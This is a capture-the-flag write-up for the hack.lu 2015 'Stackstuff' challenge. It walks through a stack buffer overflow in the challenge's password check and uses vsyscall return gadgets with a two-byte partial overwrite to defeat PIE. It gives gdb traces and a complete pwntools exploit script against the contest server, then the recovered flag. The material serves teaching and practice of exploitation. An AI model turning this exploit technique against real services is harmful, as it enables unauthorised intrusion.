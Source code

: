 [](ctf=hack.lu-2015)
[](type=exploiting,pwn)
[](tags=buffer-overflow)
[](tools=gdb-peda,pwntools)
[](techniques=ROP)

# Stackstuff (Exploiting 150)
We have an [archive](../stackstuff_public_d7f6e7f394f649ba96b3113374a0bfb3.tar.gz).
On extracting

```bash
$ file *
hackme:   ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f46fbf9b159f6a1a31893faf7f771ca186a2ce8d, not stripped
hackme.c: C source, ASCII text
```

We have source of the executable. 

```c
int check_password_correct(void) {
  char buf[50] = {0};

  puts("To download the flag, you need to specify a password.");
  printf("Length of password: ");
  int inlen = 0;
  if (scanf("%d\n", &inlen) != 1) {
    // peer probably disconnected?
    exit(0);
  }
  if (inlen <= 0 || inlen > 50) {
    // bad input length, fix it
    inlen = 90;
  }
  if (fread(buf, 1, inlen, stdin) != inlen) {
    // peer disconnected, stop
    exit(0);
  }
  return strcmp(buf, real_password) == 0;
}


void require_auth(void) {
  while (!check_password_correct()) {
    puts("bad password, try again");
  }
}

void handle_request(void) {
  alarm(60);
  setbuf(stdout, NULL);

  FILE *realpw_file = fopen("password", "r");
  if (realpw_file == NULL || fgets(real_password, sizeof(real_password), realpw_file) == NULL) {
    fputs("unable to read real_password\n", stderr);
    exit(0);
  }
  fclose(realpw_file);

  puts("Hi! This is the flag download service.");
  require_auth();

  char flag[50]; //we'll jump to this line in the exploit ;)
  FILE *flagfile = fopen("flag", "r");
  if (flagfile == NULL || fgets(flag, sizeof(flag), flagfile) == NULL) {
    fputs("unable to read flag\n", stderr);
    exit(0);
  }
  puts(flag);
}

```
We can see that it is basic buffer overflow in check_password_correct as it allows an input of length 90 in a buffer of 50.
So we load the executable in gdb.
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : disabled
```
NX is enabled means stack is not executable.
PIE means position independent executable, This means that the binary instructions itself is loaded arbitrarily in the memory.
So we can't have shellcode and normal ROP over the binary.

However we have an attack vector where we can fool the service to jump to the part where it displays the flag. But we need to have knowledge of the eip or some instruction address in memory.

So lets find the offset of EIP overwrite and search for some attack vectors.
Use pattern_create and pattern_offset to find that the offset is 72.

So payload:
> 'A'*72+ret_addr


Lets test in gdb. For PIE enabled executables gdb uses a fixed address to load them which can be found out by running and stopping it in gdb using 'info files'

```bash
$ nc 127.0.0.1 1514 -vv
localhost [127.0.0.1] 1514 (?) open
Hi! This is the flag download service.
To download the flag, you need to specify a password.
Length of password: 99
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB
```
gives us

```bash
gdb-peda$  b *0x555555554fb9
Breakpoint 1 at 0x555555554fb9
gdb-peda$ r
.
.
.
[Switching to process 2398]
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xa ('\n')
RDX: 0x73 ('s')
RSI: 0x555555755a20 ("sudhackar\n")
RDI: 0x7fffffffe0d0 ('A' <repeats 72 times>, 'B' <repeats 18 times>, "UUUU")
RBP: 0x0 
RSP: 0x7fffffffe118 ('B' <repeats 18 times>, "UUUU")
RIP: 0x555555554fb9 (<check_password_correct+231>:	ret)
R8 : 0x1000 
R9 : 0x4141414141414141 ('AAAAAAAA')
R10: 0x4141414141414141 ('AAAAAAAA')
R11: 0x246 
R12: 0x555555554d70 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe2c0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554faf <check_password_correct+221>:	sete   al
   0x555555554fb2 <check_password_correct+224>:	movzx  eax,al
   0x555555554fb5 <check_password_correct+227>:	add    rsp,0x58
=> 0x555555554fb9 <check_password_correct+231>:	ret    
   0x555555554fba <require_auth>:	sub    rsp,0x8
   0x555555554fbe <require_auth+4>:	jmp    0x555555554fcc <require_auth+18>
   0x555555554fc0 <require_auth+6>:	lea    rdi,[rip+0x420]        # 0x5555555553e7
   0x555555554fc7 <require_auth+13>:	call   0x555555554bc0 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe118 ('B' <repeats 18 times>, "UUUU")
0008| 0x7fffffffe120 ("BBBBBBBBBBUUUU")
0016| 0x7fffffffe128 --> 0x555555554242 ('BBUUUU')
0024| 0x7fffffffe130 --> 0x555555554d70 (<_start>:	xor    ebp,ebp)
0032| 0x7fffffffe138 --> 0x7ffff7df0325 (<_dl_runtime_resolve+53>:	mov    r11,rax)
0040| 0x7fffffffe140 --> 0x7fffffffe57f --> 0x5800636578656572 ('reexec')
0048| 0x7fffffffe148 --> 0x0 
0056| 0x7fffffffe150 --> 0x7fffffffe2d8 --> 0x7fffffffe586 ("XDG_VTNR=7")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555554fb9 in check_password_correct ()
```

So we have EIP overwrite here. But we can't figure out the ret_addr. 
However If we notice the stack frame here on ret instruction above.
We see 
```
0016| 0x7fffffffe128 --> 0x555555554242 ('BBUUUU')
```
We control the last two bytes of an address which matches with our randomised EIP. So now we have to use this address some how to return to this location.


We can use the linux vsyscall function as its location is always fixed for a binary.
The vsyscalls are part of the kernel, but the kernel pages containing them are executable with userspace privileges. And they’re mapped to fixed addresses in the virtual memory

Now we'll look for potential ROP chains.

```bash
gdb-peda$ x/5xi 0xffffffffff600400
   0xffffffffff600400:	mov    rax,0xc9
   0xffffffffff600407:	syscall 
   0xffffffffff600409:	ret    
   0xffffffffff60040a:	int3   
   0xffffffffff60040b:	int3
```
Yea, ret is all we need,twice!
So now payload format :

>'A'*72+p64(0xffffffffff600400)+p64(0xffffffffff600400)+last two bytes of our jmp address.

[Here](stackstuff.py) is an exploit that does the same.
```python
from pwn import *
#s=remote('127.0.0.1',1514)
#0x000055555555508b
#0xffffffffff600400
s=remote('school.fluxfingers.net',1514)
addr=p64(0xffffffffff600400)
payload='A'*72+addr*2+"\x8b\x10"
print repr(payload)
print s.recv(100,timeout=1)
print s.recv(100,timeout=1)
print s.recv(100,timeout=1)
print s.recv(100,timeout=1)
s.send('100\n')
print s.recvline(timeout=1)
print s.recvline(timeout=1)
s.send(payload+'\n')
for _ in range(10):
	try:
		print s.recv(100,timeout=1)
	except:
		print "Done?"
		break
```
Afer a few tries

```bash
$ python stackstuff_public_d7f6e7f394f649ba96b3113374a0bfb3/try.py [+] Opening connection to school.fluxfingers.net on port 1514: Done
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x04`\xff\xff\xff\xff\xff\x00\x04`\xff\xff\xff\xff\xff\x8b\x10'
Hi! This is the flag download service.

To download the flag, you need to specify a password.
Length of password: 




flag{MoRE_REtuRnY_tHAn_rop}


Done?
[*] Closed connection to school.fluxfingers.net port 1514
```

Flag: 

> flag{MoRE_REtuRnY_tHAn_rop}